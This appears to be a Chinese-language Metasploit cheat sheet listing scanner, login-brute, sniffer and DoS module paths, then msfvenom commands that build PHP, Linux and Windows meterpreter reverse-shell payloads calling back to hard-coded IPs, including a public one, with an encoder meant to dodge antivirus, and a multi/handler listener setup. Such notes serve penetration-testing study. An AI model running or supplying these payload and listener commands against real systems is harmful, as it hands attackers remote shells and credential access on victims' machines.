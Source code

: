 

# msfvenom
 metasploit 更新后就移除了 msfencode 以及 msfpayload

 http://www.freebuf.com/sectool/69362.html
 http://blog.51cto.com/biock/1658668
 http://www.secist.com/archives/1070.html
 http://blog.csdn.net/lijia111111/article/details/64124693

# 扫描模块

auxiliary/scanner/portscan
scanner/portscan/ack
scanner/portscan/ftpbounce
scanner/portscan/syn
scanner/portscan/tcp
scanner/portscan/xmas
smb 扫描
smb 枚举 auxiliary/scanner/smb/smb_enumusers
返回 DCERPC 信息 auxiliary/scanner/smb/pipe_dcerpc_auditor 扫描 SMB2 协议 auxiliary/scanner/smb/smb2
扫描 smb 共享文件 auxiliary/scanner/smb/smb_enumshares 枚举系统上的用户 auxiliary/scanner/smb/smb_enumusers
SMB 登录 auxiliary/scanner/smb/smb_login
SMB 登录 use windows/smb/psexec
扫描组的用户 auxiliary/scanner/smb/smb_lookupsid 扫描系统版本 auxiliary/scanner/smb/smb_version
mssql 扫描(端口 tcp1433udp1434)
admin/mssql/mssql_enum MSSQL 枚举
ACK 防火墙扫描 FTP 跳端口扫描 SYN 端口扫描
TCP 端口扫描 TCP"XMas"端口扫描
admin/mssql/mssql_exec admin/mssql/mssql_sql scanner/mssql/mssql_login scanner/mssql/mssql_ping
另外还有一个 mssql_payload 的模块 利用使用的 smtp 扫描
MSSQL 执行命令
MSSQL 查询
MSSQL 登陆工具
测试 MSSQL 的存在和信息
smtp 枚举 auxiliary/scanner/smtp/smtp_enum
扫描 smtp 版本 auxiliary/scanner/smtp/smtp_version
snmp 扫描
通过 snmp 扫描设备 auxiliary/scanner/snmp/community
ssh 扫描
ssh 登录 auxiliary/scanner/ssh/ssh_login
ssh 公共密钥认证登录 auxiliary/scanner/ssh/ssh_login_pubkey 扫描 ssh 版本测试 auxiliary/scanner/ssh/ssh_version
telnet 扫描
telnet 登录 auxiliary/scanner/telnet/telnet_login
扫描 telnet 版本 auxiliary/scanner/telnet/telnet_version tftp 扫描
扫描 tftp 的文件 auxiliary/scanner/tftp/tftpbrute
ftp 版本扫描 scanner/ftp/anonymous

ARP 扫描
auxiliary/scanner/discovery/arp_sweep
扫描 UDP 服务的主机 auxiliary/scanner/discovery/udp_probe 检测常用的 UDP 服务 auxiliary/scanner/discovery/udp_sweep sniffer 密码 auxiliary/sniffer/psnuffle
snmp 扫描 scanner/snmp/community
vnc 扫描无认证扫描 scanner/vnc/vnc_none_auth
web 服务器信息扫描模块
Module auxiliary/scanner/http/http_version
Module auxiliary/scanner/http/open_proxy
Module auxiliary/scanner/http/robots_txt
Module auxiliary/scanner/http/frontpage_login
Module auxiliary/admin/http/tomcat_administration Module auxiliary/admin/http/tomcat_utf8_traversal
Module auxiliary/scanner/http/options
Module auxiliary/scanner/http/drupal_views_user_enum Module auxiliary/scanner/http/scraper
Module auxiliary/scanner/http/svn_scanner
Module auxiliary/scanner/http/trace
Module auxiliary/scanner/http/vhost_scanner

Module auxiliary/scanner/http/webdav_internal_ip Module auxiliary/scanner/http/webdav_scanner
Module auxiliary/scanner/http/webdav_website_content 文件目录扫描模块
Module auxiliary/dos/http/apache_range_dos
Module auxiliary/scanner/http/backup_file
Module auxiliary/scanner/http/brute_dirs
Module auxiliary/scanner/http/copy_of_file
Module auxiliary/scanner/http/dir_listing
Module auxiliary/scanner/http/dir_scanner
Module auxiliary/scanner/http/dir_webdav_unicode_bypass Module auxiliary/scanner/http/file_same_name_dir
Module auxiliary/scanner/http/files_dir
Module auxiliary/scanner/http/http_put
Module auxiliary/scanner/http/ms09_020_webdav_unicode_bypass Module auxiliary/scanner/http/prev_dir_same_name_file
Module auxiliary/scanner/http/replace_ext
Module auxiliary/scanner/http/soap_xml
Module auxiliary/scanner/http/trace_axd
Module auxiliary/scanner/http/verb_auth_bypass

web 应用程序漏洞扫描模块
Module auxiliary/scanner/http/blind_sql_query Module auxiliary/scanner/http/error_sql_injection Module auxiliary/scanner/http/http_traversal
Module auxiliary/scanner/http/rails_mass_assignment Module exploit/multi/http/lcms_php_exec
# php rev
msfvenom -p php/meterpreter_reverse_tcp LHOST=119.29.226.211 LPORT=2341 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# linux
msfvenom -p payload/linux/x86/meterpreter/reverse_tcp  LHOST=192.168.0.120 LPORT=4433 -f elf >shell.elf

# win
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=192.168.203.139 LPORT=2341 -f exe > abc.exe

# 监听
use exploit/multi/handler
set payload 
sey LHOST
set LPORT

